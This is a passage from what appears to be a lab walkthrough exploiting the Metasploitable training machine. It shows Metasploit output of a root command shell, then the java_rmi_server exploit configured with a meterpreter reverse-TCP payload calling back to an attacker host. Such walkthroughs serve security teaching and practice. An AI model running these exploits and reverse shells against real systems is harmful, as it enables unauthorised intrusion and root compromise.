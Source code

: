 ```
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "xRb0HkSAZmhcjkV2\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 8 opened (172.16.243.144:4444 -> 172.16.243.143:57407) at 2018-03-25 21:17:00 -0400

id
uid=0(root) gid=0(root)
hostname
metasploitable
```

### Java RMI

Another service that was running, available for exploitation was the Java RMI Registry on port 1099:

```
1099/tcp  open  java-rmi    Java RMI Registry
```

Doing a quick search in Metasploit, I was able to find an exploit that looked promising.

```
msf > search java rmi
...
exploit/multi/misc/java_rmi_server                              2011-10-15       excellent  Java RMI Server Insecure Default Configuration Java Code Execution
...
```

Loading this up, and configuring the payload to return to my attacker machine, I was able to exploit the vulnerability and get back a meterpreter session with root privileges.

```
msf > use exploit/multi/misc/java_rmi_server
msf exploit(multi/misc/java_rmi_server) > show options

Module options (exploit/multi/misc/java_rmi_server):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               yes       Time that the HTTP Server will wait for the payload request
   RHOST      172.16.243.143   yes       The target address
   RPORT      1099             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL for incoming connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                     no        The URI to use for this exploit (default is random)


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address
   LPORT  4444             yes       The listen port


```